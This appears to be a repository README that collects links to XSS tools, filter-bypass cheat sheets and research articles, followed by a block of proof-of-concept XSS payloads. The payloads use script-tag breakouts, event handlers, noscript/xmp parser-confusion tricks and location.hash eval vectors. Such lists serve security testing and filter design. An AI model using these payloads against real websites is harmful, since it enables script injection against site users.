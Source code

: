# xss sets
[Sec-wiki XSS](https://www.sec-wiki.com/news/search?wd=xss) 
[XSS过滤绕过速查表](https://www.freebuf.com/articles/web/153055.html)  

# Tools
[Beef](https://github.com/beefproject/beef)  
[XSStrike](https://github.com/s0md3v/XSStrike)  
[xssor2](https://github.com/evilcos/xssor2)  
[xssfork](https://github.com/bsmali4/xssfork)  
[XSS-Filter-Evasion-Cheat-Sheet-CN](https://github.com/l3m0n/XSS-Filter-Evasion-Cheat-Sheet-CN)  

# blogs
[BRUTE XSS](http://brutelogic.com.br/blog/)  

# articles
[Bypass XSS Protection with xmp, noscript, noframes.. etc](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)  
[XSS attacks on Googlebot allow search index manipulation](https://www.tomanthony.co.uk/blog/xss-attacks-googlebot-index-manipulation/)  
[A WOrmable XSS on HackMD](https://blog.orange.tw/2019/03/a-wormable-xss-on-hackmd.html)  
[Breaking XSS mitigations via Script Gadgets](https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf)[pocs](https://github.com/google/security-research-pocs/tree/master/script-gadgets)  
[Security Safe HTML](http://www.gwtproject.org/doc/latest/DevGuideSecuritySafeHtml.html)  
[Reducing XSS by way of Automatic Context-Aware Escaping in Template Systems](https://security.googleblog.com/2009/03/reducing-xss-by-way-of-automatic.html)  
[Fighting XSS with Isolated Scripts](https://sirdarkcat.blogspot.com/2017/01/fighting-xss-with-isolated-scripts.html)  
[Google搜索中的突变XSS](https://xz.aliyun.com/t/4865)  
[特斯拉上价值10000美元的XSS漏洞](https://nosec.org/home/detail/2781.html)  

[About Google](https://nosec.org/home/detail/2449.html)  
[Xss Sets](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)  

```JavaScript
<script>alert(1)</script>
"><script>alert(1)</script>
"><script>alert(document.domain)</script>
"><script>alert(1)</script><" 
'"><script>alert(1)</script>
'"><script>alert(1)</script>"
';"<script>alert(1)</script>
</script><script>alert(1)</script>
<img src='' onerror=alert(/poc/)>
<img src=1 alt="xss＂onerror=alert(1);//">
<DIV STYLE="width: ｅxpression(alert('XSS'));">
"><BODY ONLOAD=alert(1)>,1/

</title><script>alert(/poc/)</script>
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE> 
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
<noscript><p title="</noscript><svg/onload=alert(1)>">
<xmp><p title="</xmp><svg/onload=alert(1)>">
<noframes><p title="</noframes><svg/onload=alert(1)>">
<iframe><p title="</iframe><svg/onload=alert(1)>">
<iframe style="visibility:hidden"><p title="</iframe><svg/onload=alert(1)>">
<svg onload=alert(document.domain)>

location:
<body/onload=eval(location.hash.slice(1))>#alert(1)
<body/onload=setTimeout(location.hash.substr(1))>#alert(1)

```
